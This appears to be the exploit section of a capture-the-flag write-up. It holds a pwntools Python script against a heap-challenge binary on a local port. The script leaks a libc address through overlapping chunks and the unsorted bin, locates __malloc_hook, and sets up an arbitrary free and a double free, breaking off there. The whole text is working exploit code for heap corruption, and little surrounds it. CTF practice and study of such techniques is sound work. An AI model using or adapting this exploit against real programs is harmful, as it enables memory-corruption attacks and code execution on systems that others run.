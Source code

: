 ### Full exploit code

```python
from pwn import *


context.log_level = 'INFO'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'x86_64'

binary = 'chall'
container = 'vspm'
e = ELF(binary)
libc = ELF('./libc.so.6')

HOST, PORT = '127.0.0.1 8783'.split(' ')

def add(length, credentials, name):
    p.sendlineafter(b'Input: ', b'1')
    p.sendlineafter(b'length: ', str(length).encode())
    p.sendafter(b'credentials: ', credentials)
    p.sendafter(b'credentials: ', name)

def show():
    p.sendlineafter(b'Input: ', b'2')
    return p.recvuntil(b'\x91')

def delete(idx):
    p.sendlineafter(b'Input: ', b'3')
    p.sendlineafter(b'index: ', str(idx).encode())

if __name__ == '__main__':
    p = remote(HOST, PORT)

    add(0x78, b'A'*0x38, b'0')
    add(0x78, b'A'*0x38, b'1')
    add(0x78, b'A'*0x38, b'2')
    delete(0)
    delete(1)
    delete(2)
    add(0x78, b'A'*8 + p64(0x71) + b'B'*0x30, b'0')
    add(0x78, b'A'*0x78, b'1')
    add(0x78, b'A'*0x78 + b'\x91', b'2')
    delete(1)           # <-- into  unsorted bin
    add(0x78, b'F'*0x8, b'0')
    out = show()
    leak = u64(out.split(b'F'*0x8)[1][:6].ljust(8, b'\x00'))
    malloc_hook = leak - 0xf0
    libc.address = malloc_hook - libc.sym['__malloc_hook']

    info(f"[libc.address] {hex(libc.address)}")
    info(f"[malloc_hook] {hex(malloc_hook)}")

    add(0x68, b'A'*0x68, b'3')  # dummy for address alignment
    add(0x68, b'A'*0x68, b'4')
    add(0x68, b'B'*0x68, b'5')
    add(0x68, b'C'*0x68, b'6')

    delete(4)
    add(0x68, b'A'*0x68, b'5'*0x20+b'\x00') # node[1].ptrcred = node[0].ptrcred
    delete(5)   # arbitrary free
    delete(6)
    delete(4)   # double free
```